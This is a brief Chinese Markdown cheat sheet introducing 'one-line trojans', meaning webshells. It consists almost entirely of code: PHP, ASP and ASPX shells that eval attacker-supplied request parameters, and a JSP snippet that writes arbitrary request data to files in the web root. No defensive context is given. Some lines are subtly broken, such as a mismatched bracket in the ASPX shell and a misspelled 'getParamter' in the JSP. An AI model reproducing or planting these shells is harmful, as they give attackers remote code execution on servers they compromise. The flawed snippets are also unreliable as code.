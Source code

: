 # 各种马介绍

## 一句话木马
```php
<?php @eval($_POST['c']);?>
```

```ASP
<%eval request("pass")%>
```

```ASPX
<%@ Page Language="Jscript"%><%eval(Request.Item("pass"],"unsafe");%>
```

```jsp
<%
if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParamter("f"))).write(request.getParameter("t").getBytes());
%>
```